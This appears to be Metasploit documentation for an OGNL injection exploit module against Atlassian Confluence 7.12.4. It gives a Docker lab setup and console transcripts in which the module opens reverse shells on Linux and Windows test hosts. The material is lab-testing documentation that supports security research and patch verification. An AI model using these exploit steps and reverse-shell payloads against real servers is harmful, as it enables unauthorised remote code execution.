 ## Vulnerable Application

### Setup

Run the following [Docker] command to test Confluence **7.12.4**:

`docker run -dp 8090:8090 atlassian/confluence:7.12.4`

You will need to [complete setup] once the container has started.

[Docker]: https://hub.docker.com/r/atlassian/confluence
[complete setup]: https://confluence.atlassian.com/doc/confluence-setup-guide-135691.html

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Scenarios

### Confluence 7.12.4 in [Docker]

```
msf6 > use exploit/multi/http/atlassian_confluence_webwork_ognl_injection
[*] Using configured payload cmd/unix/reverse_perl
msf6 exploit(multi/http/atlassian_confluence_webwork_ognl_injection) > options

Module options (exploit/multi/http/atlassian_confluence_webwork_ognl_injection):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      8090             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix Command


msf6 exploit(multi/http/atlassian_confluence_webwork_ognl_injection) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 exploit(multi/http/atlassian_confluence_webwork_ognl_injection) > set lhost 172.16.57.1
lhost => 172.16.57.1
msf6 exploit(multi/http/atlassian_confluence_webwork_ognl_injection) > run

[*] Started reverse TCP handler on 172.16.57.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Successfully tested OGNL injection.
[*] Executing cmd/unix/reverse_perl (Unix Command)
[*] Command shell session 1 opened (172.16.57.1:4444 -> 172.16.57.1:62795 ) at 2021-10-14 16:31:23 -0500

whoami
confluence
^Z
Background session 1? [y/N]  y
```

### Confluence 7.12.4 on Windows Server 2016

```
msf6 exploit(multi/http/atlassian_confluence_webwork_ognl_injection) > set rhosts 172.16.57.9
rhosts => 172.16.57.9
msf6 exploit(multi/http/atlassian_confluence_webwork_ognl_injection) > set target 2
target => 2
msf6 exploit(multi/http/atlassian_confluence_webwork_ognl_injection) > run

[*] Started reverse SSL handler on 172.16.57.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Successfully tested OGNL injection.
[*] Executing cmd/windows/powershell_reverse_tcp (Windows Command)
[*] Powershell session session 2 opened (172.16.57.1:4444 -> 172.16.57.9:61152 ) at 2021-10-14 16:31:59 -0500

PS C:\Program Files\Atlassian\Confluence> whoami
nt authority\network service
PS C:\Program Files\Atlassian\Confluence>
```

